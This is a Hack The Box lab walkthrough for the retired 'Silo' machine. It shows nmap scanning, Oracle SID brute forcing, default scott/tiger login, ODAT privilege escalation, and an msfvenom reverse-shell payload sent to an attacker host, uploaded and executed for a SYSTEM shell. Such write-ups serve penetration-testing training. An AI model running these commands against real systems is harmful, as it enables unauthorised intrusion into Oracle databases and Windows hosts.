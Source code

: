 ```yaml
---
layout: post
title: "Silo"
categories: HTB-Walkthrough
---
```


![silo](/assets/img/silo/silo-1.png)

Silo is another HTB machine from the 'retired' list that is OSCP-like.

Setting things up to get Metasploit to do its thing was honestly, the most testing thing about the experience.
Now that its all set up, I'm happy, but its not something I'd like to repeat too often!
I've decided to be of no help whatsoever in this part of the process, so that you can truly appreciate my pain!
Know that even providing you with [this link](https://blog.zsec.uk/msforacle/), I mock your anguish!

;)



<h4>Nmap</h4>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.82 |tee -a silo.txt`

```

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```


The initial enumeration of the webserver (port80) yeilded nothing of importance, so I moved on to investigation of Oracle.



<h4>msfconsole</h4>


`use auxiliary/scanner/oracle/tnspoison_checker`

`use auxiliary/admin/oracle/sid_brute`

```

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/oracle/sid_brute) > 

```

`use auxiliary/admin/oracle/oracle_login`

This is where I ran into trouble with ruby, I got an 'oci8' error, and so needed to install a bunch of stuff!

`https://github.com/kubo/ruby-oci8`

download latest version and install that !!!!

Next I found I had to install Odat, I just got the 'quick' version!
....well when I say quick.....!!!!


<hr width="250" size="6">


Eventually I get things set up, and can resume...

![msf-brutelogin](/assets/img/silo/silo-msf-brutelogin.png)


Success!!!
we've got the default login creds for the training account - scott/tiger


<hr width="250" size="6">


<h3>ODAT-Exploit</h3>

Now we need to use ODAT to upload and execute an exploit, first we can use it to get admin privileges.



![odat-privesc](/assets/img/silo/silo-odat-privesc.png)




With DBA privs we can upload a file...

After much experimentation uploading different files to different places, and then trying to escalate in different shells, it hit me...
Why not just try upload to Administrator's folder and execute from there to get instant Administrator privileges?

Exited by this brainwave, I gave it a go.

<hr width="250" size="6">

We need to create a payload to upload, an evil1.exe

I used msfvenom to generate one, and embedded it into plink for maximum snek!

```

msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4443 -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil1.exe

```



Then upload it via ODAT

```

./odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U scott -P tiger --test-module --putFile /Users/Administrator/Desktop/ evil1.exe /root/HTB/retired/silo/evil1.exe

```

get nc listener ready on 4443; and execute the file, again via ODAT

```

./odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec /Users/Administrator/Desktop/ evil1.exe

```

Instant System !!!


```

c:\Users>whoami
whoami
nt authority\system

c:\Users>type phineas\desktop\user.txt
type phineas\desktop\user.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxx17
c:\Users>type administrator\desktop\root.txt
type administrator\desktop\root.txt
cdxxxxxxxxxxxxxxxxxxxxxxxxxxxxf6
c:\Users>

```

<hr width="250" size="6">


I spent a lot of time on this box, not just in the setting up of odat, but tinkering with the commands, and selecting the best
methods to pwn the system. This was just the most straight-forward!



:)

